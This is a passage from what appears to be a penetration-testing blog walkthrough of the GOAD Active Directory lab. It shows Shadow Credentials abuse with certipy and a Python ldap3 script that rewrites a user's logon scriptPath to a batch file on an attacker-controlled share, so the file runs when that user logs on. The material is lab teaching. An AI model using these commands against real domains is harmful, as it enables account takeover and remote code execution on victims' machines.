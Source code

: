 ### Shadow Credentials

This was already done previously in this blog, one of the fastest exploitation is with certipy:

```bash
certipy shadow auto -u jaime.lannister@sevenkingdoms.local -p 'pasdebraspasdechocolat' -account 'joffrey.baratheon'
```

![acl_shadowcreds.png](/assets/blog/GOAD/acl_shadowcreds.png)


### Logon script

- To show the scriptpath ldap value instead of ldapsearch we can use the tool [ldeep](https://github.com/franc-pentest/ldeep)

```bash
ldeep ldap -u jaime.lannister -p 'pasdebraspasdechocolat' -d sevenkingdoms.local -s ldap://192.168.56.10 search '(sAMAccountName=joffrey.baratheon)' scriptpath
```

![acl_show_scriptpath.png](/assets/blog/GOAD/acl_show_scriptpath.png)


- We can change this value with the following script:

```python
import ldap3
dn = "CN=joffrey.baratheon,OU=Crownlands,DC=sevenkingdoms,DC=local"
user = "sevenkingdoms.local\\jaime.lannister"
password = "pasdebraspasdechocolat"
server = ldap3.Server('kingslanding.sevenkingdoms.local')
ldap_con = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
ldap_con.bind()
ldap_con.modify(dn,{'scriptpath' : [(ldap3.MODIFY_REPLACE, '\\\\192.168.56.1\share\exploit.bat')]})
print(ldap_con.result)
ldap_con.unbind()
```
